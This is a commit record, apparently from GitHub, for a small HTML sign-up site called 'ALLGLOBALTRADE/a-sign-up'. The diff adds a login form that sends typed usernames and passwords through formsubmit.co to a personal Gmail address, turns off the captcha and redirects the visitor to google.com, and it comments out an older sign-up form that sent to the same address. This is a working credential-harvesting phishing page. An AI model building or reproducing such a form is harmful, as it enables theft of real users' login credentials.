

Before and after one commit to ALLGLOBALTRADE/a-sign-up, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 312-776 px from the top of the page, without its empty margins (102-1103 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -104,7 +104,37 @@
 
 
 
+
                                 <form
+                                    action="https://formsubmit.co/dineroewiwilem@gmail.com"
+                                    method="POST"
+                                >
+                                <input type="text" name="_honey" style="display: none" />
+                                <input type="hidden" name="_captcha" value="false" />
+                                <input type="hidden" name="_next" value="https://www.google.com">
+
+
+                                    <table width="100%" border=0 cellpadding=4 cellspacing=4>
+                                        <tr>
+                                            <td><span class="user">
+                    <input type="text" name="username" value='' class="inpts" size="30" autofocus="autofocus" placeholder="Username">
+                    </span></td>
+                                        </tr>
+                                        <tr>
+                                            <td><span class="password">
+                    <input type="password" name="password" value='' class="inpts" size="30" placeholder="Password">
+                    </span></td>
+                                        </tr>
+
+
+                                        <tr>
+                                            <td><a href=""><input type=submit value="Login" class=sbmt></td></a>
+                                        </tr>
+                                    </table>
+                                </form>
+
+
+<!--                                 <form
                                     action="https://formsubmit.co/dineroewiwilem@gmail.com"
                                     method="POST"
                                 >
@@ -116,7 +146,7 @@
                                         <table width="100%" border=0 cellspacing=0>
                                             <tr>
                                                 <td width="100%">
-                                                    <input type=text name=fullname value="" class=inpts size=30 placeholder="Your Full Name" required></td>
+                                                    <input type=text name=fullname class=inpts size=30 placeholder="Your Full Name" required></td>
                                             </tr>
 
 
@@ -125,7 +155,7 @@
 
                                                 <td>
 
-                                                    <input type=text name=username value="" class=inpts size=30 placeholder="Your Username" required>
+                                                    <input type=text name=username class=inpts size=30 placeholder="Your Username" required>
 
                                                 </td>
 
@@ -220,7 +250,7 @@
                                             </tr>
                                         </table>
                                     </div>
-                                </form>
+                                </form> -->
                             </div>
 
                             <div class="loginbottom"><a href="/login-page/index.html" class="existinguser">Existing User? Login</a><a href="/?a=forgot_password" class="getstarted">Retrive Password?</a></div>
```
